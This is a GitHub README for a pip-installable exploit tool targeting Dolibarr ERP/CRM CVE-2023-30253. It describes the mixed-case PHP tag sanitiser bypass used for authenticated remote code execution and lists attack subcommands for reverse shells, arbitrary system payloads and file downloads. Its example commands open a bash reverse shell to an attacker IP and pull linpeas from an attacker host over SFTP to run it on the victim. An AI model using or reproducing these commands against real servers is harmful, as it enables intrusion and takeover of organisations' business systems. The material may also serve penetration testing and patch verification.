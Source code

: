 # DolibabyPhp

An authenticated RCE exploit for Dolibarr ERP/CRM CVE-2023-30253.

## Installation

You can either install the package from the PyPi repository with `pip` or `git clone` the source directly from GitHub.

```shell
pip install dolibabyphp
```

## Usage

```txt
Usage: dolibabyphp [OPTIONS] TARGET_URL USERNAME PASSWORD COMMAND [ARGS]...

  This exploit will log into the Dolibarr web server at the specified target URL
  with the provided username and password. After that it will attempt to create
  a web page with a unique name. Once created, it will modify the web page to
  include the custom PHP code bypassing the sanitation check by not using only
  lowercase letters (e.g. PHP or pHp instead of php). There are multiple
  payloads to choose from After the payload has finished running, the web page
  will be deleted.

Options:
  --site-name TEXT       Specify a name to use when creating a site on the
                         target. Defaults to UUIDv4.
  --page-name TEXT       Specify a name to use when creating a page on the
                         target. Defaults to UUIDv4.
  --page-title TEXT      Specify a title for the page. Defaults to the page
                         name.
  --proxy TEXT           Specify a proxy URL for use in all requests.
  -o, --output FILENAME  Specify a file path to output the results of the
                         payload to. Defaults to stdout.
  -h, --help             Show this message and exit.

Commands:
  bash-reverse-shell     Spawns a bash shell on the victim machine and...
  cleanup                Runs the cleanup script on the target for given site...
  custom-php-payload     Specify your own PHP payload to be run on the victim...
  custom-system-payload  Specify your own payload to be run via PHP system()...
  sftp                   SFTPs to the attacker machine, downloads the...
  wget                   Downloads the file at the specified URL to to the...
```

### Examples

```shell
# Reverse shell with Bash
dolibabyphp http://example.com/ username1 pass_word23 bash-reverse-shell --lhost 1.2.3.4 --lport 4444

# Testing with a proxy
dolibabyphp --proxy http://127.0.0.1:8080 http://example.com/ username1 pass_word23 custom-system-payload --payload "uname -a"

# SFTP linpeas to the target, execute it, and save the output to a file on the attacker machine.
dolibabyphp -o ./linpeas-output.txt http://example.com/ username1 pass_word23 sftp --private-key-file ./id_ed25519 sftp://me@1.2.3.4:2222/linpeas.sh ./style.css
```

## Running from source

In order to run the project from the source code, you can either use `rye run` or make sure you add the `src/` directory to the `PYTHONPATH` and then import the module `dolibabyphp` with the `-m` flag.

```shell
# With rye
rye run dolibabyphp

# Without rye
PYTHONPATH="$(pwd)/src/" python -m dolibabyphp
```
